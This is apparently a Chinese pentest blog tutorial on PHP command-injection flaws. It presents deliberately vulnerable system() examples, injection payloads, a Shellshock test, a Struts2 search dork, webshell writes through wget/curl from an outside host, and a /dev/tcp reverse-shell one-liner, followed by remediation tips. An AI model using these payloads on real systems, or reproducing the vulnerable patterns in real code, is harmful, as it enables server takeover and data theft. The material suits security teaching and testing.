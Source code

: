+++
date = "2016-07-24T14:32:51+08:00"
description = ""
draft = false
tags = ["命令执行"]
title = "命令执行漏洞"
topics = ["PHP", "Pentest"]

+++

### 0x00 命令执行
> ```
应用有时需要调用一些执行系统命令的函数，如PHP中的system、exec、shell_exec、
passthru、popen、proc_popen等，当用户能控制这些函数中的参数时，就可以将恶意系统命令
拼接到正常命令中，从而造成命令执行攻击，这就是命令执行漏洞。
```

### 0x01 利用条件
1. 应用调用执行系统命令的函数
2. 将用户输入作为系统命令的参数拼接到了命令行中
3. 没有对用户输入进行过滤或过滤不严

### 0x02 漏洞分类
1. 代码层过滤不严  
    商业应用的一些核心代码封装在二进制文件中，在web应用中通过system函数来调用：  
    system("/bin/program \-\-arg $arg");
2. 系统的漏洞造成命令执行  
    bash破壳漏洞(CVE-2014-6271)  
    执行```env x='() { :;}; echo vulnerable' bash -c "echo this is a test"```后  
    若输出vulnerable则证明存在漏洞
3. 调用的第三方组件存在代码执行漏洞  
    如WordPress中用来处理图片的ImageMagick组件  
    JAVA中的命令执行漏洞(struts2/ElasticsearchGroovy等)  
    ThinkPHP命令执行

### 0x03 漏洞危害
1. 继承Web服务程序的权限去执行系统命令或读写文件
2. 反弹shell
3. 控制整个网站甚至控制服务器
4. 进一步内网渗透
5. 等等

### 0x04 漏洞挖掘
> 可以google hacking  
尝试：filetype:action或filetype:do来找struts2

### 0x05 漏洞可能代码(以system为例)
> ```php
1. system("$arg");  //直接输入即可
2. system("/bin/prog $arg");  //直接输入;ls
3. system("/bin/prog -p $arg");  //和2一样
4. system("/bin/prog --p=\"$arg\"");  //可以输入";ls;"
5. system("/bin/prog --p='$arg'");  //可以输入';ls;'

在Linux上，上面的;也可以用|、||代替
    ;前面的执行完执行后面的
    |是管道符，显示后面的执行结果
    ||当前面的执行出错时执行后面的

在Windows上，不能用;可以用&、&&、|、||代替
    &前面的语句为假则直接执行后面的
    &&前面的语句为假则直接出错，后面的也不执行
    |直接执行后面的语句
    ||前面出错执行后面的
```

### 0x06 漏洞利用
* 示例一

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("$arg");
    }
?>
```
{{% fluid_img src="/img/post/command_execution1.png" alt="命令执行示例1.png" %}}

* 示例二

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ping -c 3 $arg");
    }
```
{{% fluid_img src="/img/post/command_execution2.png" alt="命令执行示例2.png" %}}

* 示例三

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al \"$arg\"");
    }
```
{{% fluid_img src="/img/post/command_execution3.png" alt="命令执行示例3.png" %}}
注：若引号被转义，则可以用<b>\`id\`</b>来执行

* 示例四

> ```php
<?php
    $arg = $_GET['cmd'];
    if ($arg) {
        system("ls -al '$arg'");
    }
```
{{% fluid_img src="/img/post/command_execution4.png" alt="命令执行示例4.png" %}}

### 0x07 其他
* 动态函数调用  
在cmd.php中的代码如下：

> ```php
<?php
    $fun = $_GET['fun'];
    $par = $_GET['par'];
    $fun($par);
?>

提交http://localhost/cmd.php?fun=system&par=net user，  
最终执行的是system("net user")
```

### 0x08 关于获取webshell
> **要有写权限！**
```
1.得到当前或绝对路径(可以用pwd)
2.写文件:
    用?cmd=echo "<?php phpinfo()?>" > /var/www/html/info.php
    或?cmd=wget -O /var/www/html/info.php http://www.xx.com/phpinfo.txt
    或?cmd=curl http://www.xx.com/phpinfo.txt > /var/www/html/info.php
```

### 0x09 反弹shell
> ```
远程执行nc -vlp 8888
?cmd=bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
```

### 0x0A 漏洞修复
1. 尽量少用执行命令的函数或者直接禁用
2. 参数值尽量使用引号包括
3. 在使用动态函数之前，确保使用的函数是指定的函数之一
4. 在进入执行命令的函数/方法之前，对参数进行过滤，对敏感字符进行转义

> ```php
<?php
    $arg = $_GET['cmd'];
    // $arg = addslashes($arg);
    $arg = escapeshellcmd($arg);  //拼接前就处理
    if ($arg) {
        system("ls -al '$arg'");
    }
?>
```